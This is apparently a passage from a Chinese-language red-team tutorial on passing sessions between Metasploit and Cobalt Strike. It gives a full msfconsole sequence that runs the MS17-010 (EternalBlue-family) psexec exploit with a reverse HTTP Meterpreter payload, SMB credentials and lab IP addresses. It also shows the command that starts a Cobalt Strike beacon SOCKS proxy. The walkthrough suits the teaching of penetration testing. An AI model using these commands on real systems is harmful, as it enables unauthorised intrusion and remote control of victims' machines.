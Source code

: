 在msf执行攻击时，需要调整payload的方式（用永恒之蓝举例）：

```
use exploit/windows/smb/ms17_010_psexec
set payload windows/meterpreter/reverse_http
set DisablePayloadHandler true
set lport 5555
set lhost 172.16.0.2
set smbuser admin
set smbpass Fsec.io!
set rhosts 172.16.0.203
exploit
```

攻击完成后，msf并不会获取到shell，而是在cs中将会上线(从listener进行分辨)。

<img src="../../images//image-20230128214116803.png" alt="image-20230128214116803" style="zoom:67%;" />



### 7.3 msf使用cs proxy

在cs启动socks代理服务:

```
右键-->中转-->socks server
或在beacon> socks 8787
```

![image-20230128214555401](../../images//image-20230128214555401.png)
